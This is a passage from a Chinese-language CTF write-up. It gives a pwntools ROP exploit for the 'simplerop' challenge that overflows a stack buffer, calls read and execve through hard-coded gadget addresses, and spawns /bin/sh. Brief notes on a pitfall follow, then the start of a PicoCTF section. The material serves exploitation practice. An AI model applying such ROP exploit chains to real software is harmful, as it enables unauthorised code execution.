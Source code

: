 ```python
from pwn import *
from struct import pack
context.log_level = 'debug'
#io = process('./simplerop')
elf = ELF('./simplerop')
io=gdb.debug('./simplerop')
padding = b'A'*0x20

payload1 = padding + p32(0x0806CD50)+p32(0x0806e850)+p32(0)+p32(0x080eb7c3)+p32(0x8)
payload1 += p32(0x0806e850)+p32(0)+p32(0)+p32(0x080eb7c3)+p32(0x080bae06)+p32(0xb)+p32(0x080493e1)

io.sendlineafter(b'Your input :',payload1)
io.send(b'/bin/sh\x00')
io.interactive()   
```

> 代码可读性真的差,铁铁我爱说实话

踩了一个坑,平时用`plt`的`read`四位之后直接是返回地址,但是这里不同,`read`函数结束后才是`ret`还要重新跳转一次.

这题应该用`ROPgadgets_ropchain`也能过,但是不知道为什么没有成功

> [cmcc_simplerop - 不会修电脑 - 博客园 (cnblogs.com)](https://www.cnblogs.com/bhxdn/p/12330142.html)
>
> [[栈溢出进阶小技巧\] cmcc_simplerop一题多解 - 『脱壳破解区』 - 吾爱破解 - LCG - LSG |安卓破解|病毒分析|www.52pojie.cn](https://www.52pojie.cn/thread-1821941-1-1.html)

# PicoCTF_2018_buffer_overflow_2

![image-20240106203324958](../assets/img/old_imgs/image-20240106203324958.png)

![image-20240106203332714](../assets/img/old_imgs/image-20240106203332714.png)
